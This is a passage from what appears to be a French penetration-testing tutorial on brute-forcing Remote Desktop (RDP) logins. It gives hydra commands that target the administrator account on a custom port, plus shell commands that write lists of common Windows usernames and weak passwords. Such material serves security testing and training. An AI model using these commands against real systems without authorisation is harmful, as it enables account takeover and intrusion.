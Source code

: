 #### 4. Brute force sur port non-standard
```bash
# RDP sur port personnalisé
hydra -l administrator -P passwords.txt -s 13389 -t 4 rdp://target

# Ou avec syntaxe alternative
hydra -l administrator -P passwords.txt -t 4 rdp://target:13389
```

### Wordlists spécialisées RDP

#### Utilisateurs Windows courants (windows_users.txt)
```bash
cat > windows_users.txt << EOF
administrator
admin
root
guest
user
test
demo
backup
service
operator
support
helpdesk
temp
public
EOF
```

#### Mots de passe Windows courants (windows_passwords.txt)
```bash
cat > windows_passwords.txt << EOF
password
Password123
admin
123456
password123
administrator
Admin123
root
guest
user
qwerty
letmein
welcome
Password1
Admin
Password!
123456789
password1
EOF
```
